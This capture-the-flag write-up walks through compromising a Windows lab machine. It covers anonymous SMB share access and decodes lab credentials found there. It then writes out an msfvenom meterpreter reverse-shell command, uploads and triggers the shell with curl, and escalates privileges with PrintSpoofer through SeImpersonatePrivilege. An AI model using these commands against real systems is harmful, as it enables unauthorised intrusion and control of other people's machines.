 ```yaml
---
sticker: emoji//1f440
---
```

# ENUMERATION
---

## OPEN PORTS
---


| PORT  | SERVICE               |
| :---- | :-------------------- |
| 80    | `http`                |
| 135   | `msrpc`               |
| 139   | `netbios-ssn?`        |
| 445   | `tcp (SMB)`           |
| 3389  | `ms-wbt-server (RDP)` |
| 49663 | `http`                |
| 49667 | `msrpc`               |
| 49669 | `msrpc`               |
|       |                       |
A lot of ports are open, let's proceed to check the website located at port `80`


![](../images/Pasted%20image%2020241122171440.png)

Nothing useful is in here, let's skip the fuzzing part as it doesn't contain anything too.

As shown in the open ports, we have RDP on `3389` and also SMB on `445`, let's try to enumerate SMB to check if there's anything useful.





# RECONNAISSANCE
---


## SMB Enumeration

Let's run the following command to list the shares in `SMB`:

`smbclient -l IP`

![](../images/Pasted%20image%2020241122173253.png)

We find a share `nt4wrksv`, let's research to check if there's a way to access to it:

```ad-hint

#### How to access?
----

Command used

`smbclient \\\\<Victim Ip>\\nt4wrksv`

If we use that, we are able to connect even without the password:

![](../images/Pasted%20image%2020241122173850.png)

```

We are in and found a `passwords.txt` file, let's download it and take a look at it:

![](../images/Pasted%20image%2020241122173939.png)

Seems like two passwords, both are `base64` encoded, let's decode them:

![](../images/Pasted%20image%2020241122174102.png)

![](../images/Pasted%20image%2020241122174229.png)

We got the following credentials:

```ad-note

`Bob` : `!P@$$W0rD!123`
`Bill` : `Juw4nnaM4n420696969!$$$`


```

Let's scan the machine further to check if there's anything vulnerable, for this, I will use the following Nmap scan:

```ad-hint

##### Nmap
----

If we use: `nmap -Pn -script vuln IP`, we get the following:


![](../images/Pasted%20image%2020241122180438.png)
The `3389` port is vulnerable to RCE. let's get a shell.

```
# EXPLOITATION
---

Nice, for the exploitation part we need to do the following:

```ad-summary
### Step to step to get the shell
---


1. Use msfvenom and create the reverse shell: `msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=OURIP lport=ourport -f aspx -o reverse_shell.aspx`
2. Upload the reverse shell file to the network share:
![](../images/Pasted%20image%2020241122182149.png)
3. Use curl to retrieve the reverse shell: `curl http://IP:49663/nt4wrksv/reverse_shell.aspx`
4. Let's use metasploit's multi handler to create a listener:

![](../images/Pasted%20image%2020241122182439.png)

Let's run the multi handler and use curl at the same time to get our shell:

![](../images/Pasted%20image%2020241122182628.png)



```



Nice, let's do privilege escalation



# PRIVILEGE ESCALATION
---



For privilege escalation, we need to investigate the machine, let's take a look at the privileges using `getprivs`:


![](../images/Pasted%20image%2020241122182831.png)

Most interesting one is the `SeImpersonatePrivilege`, we can impersonate, for this privilege escalation, we'll be impersonating `PrintSpoofer`:

```ad-note

Script: [GITHUB LINK](https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe)
```

Once we've put the script inside of our machine using smb, we can do the following:

![](../images/Pasted%20image%2020241122183155.png)

Switch to shell and go to this route: 

`c:/inetpub/wwwroot/nt4wrksv`

![](../images/Pasted%20image%2020241122183251.png)

We can now see our `PrintSpoofer64.exe` program, we need to do the following in order to get a reverse shell:

`PrintSpoofer64.exe -i -c powershell.exe`

We are taking advantage of the `SeImpersonatePrivilege`, let's get our root shell:


![](../images/Pasted%20image%2020241122183438.png)

And just like that, CTF is done.

